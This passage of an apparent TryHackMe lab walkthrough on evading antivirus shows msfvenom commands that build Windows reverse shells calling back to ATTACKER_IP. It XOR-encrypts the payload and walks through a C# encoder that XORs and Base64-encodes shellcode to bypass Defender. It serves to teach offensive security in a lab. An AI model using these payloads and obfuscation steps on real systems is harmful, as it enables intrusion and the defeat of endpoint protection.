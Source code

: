 Let's build an XOR encrypted payload. For this type of algorithm, you will need to specify a key. The command would look as follows:

Xoring Shellcode using theMetasploitFramework

```shell-session
user@AttackBox$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=7788 -f exe --encrypt xor --encrypt-key "MyZekr3tKey***" -o xored-revshell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: xored-revshell.exe
```

Once again, if we upload the resulting shell to the THM Antivirus Check! page at `http://10.10.190.2/`, it will still be flagged by the AV. The reason is still that AV vendors have invested lots of time into ensuring simple msfvenom payloads are detected.

## Creating a Custom Payload

The best way to overcome this is to use our own custom encoding schemes so that the AV doesn't know what to do to analyze our payload. Notice you don't have to do anything too complex, as long as it is confusing enough for the AV to analyze. For this task, we will take a simple reverse shell generated by msfvenom and use a combination of XOR and Base64 to bypass Defender.

Let's start by generating a reverse shell with msfvenom in CSharp format:

Generate a CSharp shellcode Format

```shell-session
user@AttackBox$ msfvenom LHOST=ATTACKER_IP LPORT=443 -p windows/x64/shell_reverse_tcp -f csharp
```

### The Encoder

Before building our actual payload, we will create a program that will take the shellcode generated by msfvenom and encode it in any way we like. In this case, we will be XORing the payload with a custom key first and then encoding it using base64. Here's the complete code for the encoder (you can also find this code in your Windows machine at `C:\Tools\CS Files\Encryptor.cs`):

![[Pasted image 20250520164423.png]]

The code is pretty straightforward and will generate an encoded payload that we will embed on the final payload. Remember to replace the `buf` variable with the shellcode you generated with msfvenom.

To compile and execute the encoder, we can use the following commands on the Windows machine:

Compiling and running our custom CSharp encoder

```powershell
C:\> csc.exe Encrypter.cs
C:\> .\Encrypter.exe
qKDPSzN5UbvWEJQsxhsD8mM+uHNAwz9jPM57FAL....pEvWzJg3oE=
```
